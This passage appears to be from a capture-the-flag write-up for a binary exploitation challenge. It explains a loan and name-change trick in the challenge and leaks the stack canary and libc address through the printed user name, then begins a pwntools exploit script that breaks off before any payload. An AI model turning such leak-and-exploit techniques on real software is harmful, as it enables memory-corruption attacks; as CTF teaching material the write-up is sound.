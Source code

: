 ![alt text](../assets/img/image.png)

After buying the name, we can call the loan 1$ 1337, repay all of the debt, and change the name.

Taking advantage of printing user name to leak canary and libc’s address.

```python
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("prob_patched")
libc = ELF("./libc.so.6")
gs = """
brva 0x01889
"""


def start():
    if args.LOCAL:
        p = e.process()
        if args.GDB:
            gdb.attach(p, gdbscript=gs)
            pause()
    elif args.REMOTE:  # python x.py REMOTE <host> <port>
```